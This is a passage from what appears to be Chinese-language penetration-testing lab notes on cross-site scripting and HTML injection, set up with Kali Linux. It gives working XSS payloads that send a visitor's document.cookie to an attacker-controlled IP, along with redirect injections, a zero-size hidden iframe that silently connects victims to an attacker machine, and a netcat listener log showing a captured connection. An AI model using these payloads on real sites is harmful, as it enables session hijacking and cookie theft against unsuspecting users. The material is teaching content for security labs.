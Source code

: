 apache2服务启动

```
sudo systemctl start apache2
```

测试

```
文件监听：
	tail -f /var/www/html/cookie.html
浏览器访问：
	http://<kali ip>/cookie.php?cookie=5
	看看传入的值有没有保存在 cookie.html里
```

通过渗透机植入XSS代码：

```
<script>window.open('http://192.168.106.140/cookie.php?cookie='+document.cookie)</script>
	会弹出新页面，仅适用于测试

<script>document.location='http://192.168.106.140/cookie.php?cookie='+document.cookie</script>
	页面会重定向至空白页，仅适用于测试
	
	
注： 192.168.106.140 为kali Linux IP
注： 先清除之前植入的XSS代码
```



## 4. 手工注入



##### 内容注入

**重定向注入**

```html
<script>window.location="http://www.qfedu.com"</script>
<script>location.href="http://www.baidu.com"</script>
```

**iframe隐蔽注入**

与重定向相比，注入一个不可见的iframe是一种隐蔽的替代方案。

```html
<iframe src=http://10.11.0.4/report height=”0” width=”0”></iframe>
```

iframe用于在当前HTML文档中嵌入另一个文件，如图像或其他HTML文件。在我们的案例中，“report”是一个文件，与我们的攻击者机器上的超链接相连，而且iframe是不可见的，因为高度和宽度都设置为零。一旦提交了这个负载，任何访问该页面的用户都将连接回我们的攻击者机器。为了测试这一点，我们可以在我们的攻击机器上（本例中为10.11.0.4）的80端口上创建一个Netcat监听器，并刷新反馈页面。

```shell
kali@kali:~$ sudo nc -nvlp 80 
[sudo] password for kali: 
listening on [any] 80 ... 
connect to [10.11.0.4] from (UNKNOWN) [10.11.0.22] 41612 
GET /report HTTP/1.1 
Host: 10.11.0.
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://10.11.0.22/feedback.php
...
```

